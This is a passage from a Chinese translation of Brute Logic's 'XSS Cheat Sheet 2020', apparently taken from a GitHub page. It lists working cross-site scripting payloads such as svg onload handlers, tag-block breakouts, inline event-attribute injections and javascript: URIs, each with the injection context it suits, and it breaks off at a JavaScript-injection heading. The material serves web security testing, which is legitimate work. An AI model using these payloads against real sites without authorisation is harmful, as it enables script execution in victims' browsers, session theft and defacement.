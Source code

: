 # XSS Cheat Sheet 2020 中文翻译版



**本文翻译自 Brute Logic 的《XSS Cheat Sheet》。**  

**翻译：DeepSeek Chat、Chat GPT。**  

**辅助翻译：少年。**



## HTML注入

**当输入内容落在HTML标签的属性值内或标签外部时使用（除了后面描述的特殊情况）。如果内容落在HTML注释中，请在Payload前添加`-->`**

```
<svg onload=alert(1)>
"><svg onload=alert(1)>
```



## HTML注入 - 标签块突破

**当输入落在以下标签的内部或开始/结束标签之间时使用：`<title><style><script><textarea><noscript><pre><xmp>`和`<iframe>(</tag>)`相对应处理**

```javascript
</tag><svg onload=alert(1)>
"></tag><svg onload=alert(1)>
```



## HTML注入 - 内联

**当输入落在HTML标签的属性值中且无法通过(>)终止标签时使用**

```javascript
"onmouseover=alert(1) //
"autofocus onfocus=alert(1) //
```



## HTML注入 - 源

**当输入作为以下HTML标签属性值时使用：`href`，`src`，`data `或 `action`（包括 `formation`）。在`<script>`标签中，`src`属性可以是URL或 `data:,alert(1)`**

```javascript
javascript:alert(1)
```



## Javascript - 注入
